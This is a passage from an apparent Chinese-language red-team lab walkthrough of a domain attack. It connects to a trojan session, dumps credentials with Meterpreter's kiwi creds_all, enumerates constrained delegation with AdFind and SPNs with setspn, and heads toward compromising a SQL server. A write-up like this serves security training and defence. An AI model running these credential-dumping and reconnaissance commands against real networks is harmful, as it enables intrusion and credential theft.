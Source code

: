 ![截图](a536d77fc4da183eab7acfa8d65650e5.png)

此时，我们我们需要用webserver去主动连接这个木马会话：

```shell
connect 10.10.20.7 2222
```

![截图](93b53fcc470623d1119e4c2a8600e194.png)

<br/>

上线！

#### 4）在win7上收集域内信息

（cs有bug不能使用mimikatz，于是我们在msf上尝试）

```shell
load kiwi
creds_all
```

![截图](93748c77f327095fe1e4158771a0f821.png)

利用adfind进行探测：

```shell
shell AdFind -b "DC=redteam,DC=red" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
```

![截图](ee390a135214942b0412c0800a81aadf.png)

从这里可以看到是sqlserver具备的约束性委派。 因此，我们来收集一下这个的信息

![截图](194879e43e8ad2741d6eebdfb0ab61c8.png)

![截图](a523328a743c9c451fb1584f709fc8ff.png)

从这里可以查看到了sqlserver机器的名字以及IP了！

进一步的，我们利用spn探测对应的服务：

```shell
powershell setspn -T redteam.red -q */*
```

![截图](13304f3406012dd60b5ca7d61db909a5.png)

可以看到这里有个数据库，因此这里可能存在弱口令攻击等等的漏洞。可以尝试一下！

#### 5）入侵sqlserver

设置代理：

![截图](1a347420f6da13f35cfe2c9d050b5f3f.png)
